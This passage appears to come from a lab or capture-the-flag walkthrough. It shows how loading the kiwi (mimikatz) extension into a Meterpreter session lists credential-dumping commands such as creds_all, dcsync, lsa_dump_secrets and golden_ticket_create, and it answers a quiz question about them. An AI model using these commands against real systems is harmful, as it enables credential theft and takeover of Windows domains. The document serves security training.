 
ans> click

### Loading kiwi into our meterpreter session will expand our help menu, take a look at the newly added section of the help menu now via the command `help`. 


```
meterpreter > help kiwi

Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unparsed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitrary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)


meterpreter > 

```

Ans > click
\
### Which command allows up to retrieve all credentials?

```
Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)

```

Ans> 
